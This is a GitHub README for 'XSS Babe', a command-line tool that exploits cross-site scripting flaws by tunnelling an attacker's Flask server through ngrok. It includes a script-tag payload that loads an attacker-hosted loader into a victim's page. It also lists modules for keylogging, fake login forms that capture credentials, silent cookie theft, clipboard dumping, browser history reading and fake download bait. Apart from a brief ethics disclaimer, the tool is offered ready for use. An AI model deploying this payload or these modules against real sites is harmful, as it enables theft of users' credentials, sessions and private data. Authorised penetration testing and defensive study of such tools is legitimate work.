 # XSS BABE

XSS Babe is a tool for exploiting XSS vulnerabilities in real time. 
It automates delivery, tracking, and payload interaction through a live command-line interface. 

*this tool is functional but still a work in progress, should be done with the final touches in the next few days xx0xx

## ⚠️ Legal Disclaimer

This tool is for educational and ethical penetration testing only. 
Do not use it against targets without permission. 
You are solely responsible for how you use this software.

---

## Installation

### 1. Clone the Repo

```bash
git clone https://github.com/ekomsSavior/XSS-BABE.git
cd XSS-BABE
```

### 2. Install Dependencies

```bash
sudo apt update
sudo apt install python3 unzip -y
sudo apt install python3-flask python3-pyngrok -y
```

### 3. Install Ngrok

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
sudo mv ngrok /usr/local/bin/
```

---

## Ngrok Setup

1. Sign up at https://ngrok.com/signup  
2. Copy your auth token from: https://dashboard.ngrok.com/get-started/setup  
3. Add your token:

```bash
ngrok config add-authtoken YOUR_TOKEN_HERE
```

---

## Usage

```bash
python3 xss_babe_cli.py
```

### What It Does:
- Prompts for a target XSS URL (like: `https://vuln.site/?q=`)
- Auto-launches the Flask server and Ngrok
- Injects `x.js` loader into your payload
- Displays a live menu of attack modules
- Logs all browser events and saves session results in `sessions/`

---

## Example Payload

Use the Ngrok URL + this payload in the vulnerable input:

```html
<script src="https://YOUR_NGROK_URL/static/x.js"></script>
```

---

## Modules List

| Module            | Description                                      |
|-------------------|--------------------------------------------------|
| keylogger         | Records keystrokes in real time                  |
| fake_login        | Displays fake login form for credential capture  |
| clipboard         | Dumps contents of the victim’s clipboard         |
| auto_cookie_steal | Extracts document cookies silently               |
| browser_history   | Reads browser history if accessible              |
| download_bait     | Triggers fake file downloads (ZIP/PDF/etc)       |
| fingerprint       | Collects user-agent, screen size, timezone       |
| screenshot        | Captures visual screenshot using HTML2Canvas     |
| recon             | Loads iframe ports and resources for open recon  |
| cross_tab_spy     | Detects and tracks multiple open tabs            |

---

## File Structure

```
xss_babe/
├── xss_babe_cli.py             # Main interactive CLI
├── server.py                   # Flask server for payload delivery
├── requirements.txt            # Python dependencies
├── static/
│   ├── x.js                    # XSS loader script
│   └── modules/
│       ├── keylogger.js
│       ├── fake_login.js
│       ├── clipboard.js
│       ├── auto_cookie_steal.js
│       ├── browser_history.js
│       ├── download_bait.js
│       ├── fingerprint.js
│       ├── screenshot.js
│       ├── recon.js
│       └── cross_tab_spy.js
├── utils/
│   └── save_to_txt.py          # Helper to save session info
└── sessions/
    └── [timestamp].txt         # Auto-generated session logs
```

---

## Logs and Reporting

All session output (payloads used, timestamps, logs) are saved to:

```
sessions/YYYY-MM-DD-HHMMSS.txt
```

---

## Stay Ethical

Use XSS Babe only in lab environments or on targets you own or have permission to test. 

---

##  Developed by [ekomsSavior](https://github.com/ekomsSavior)
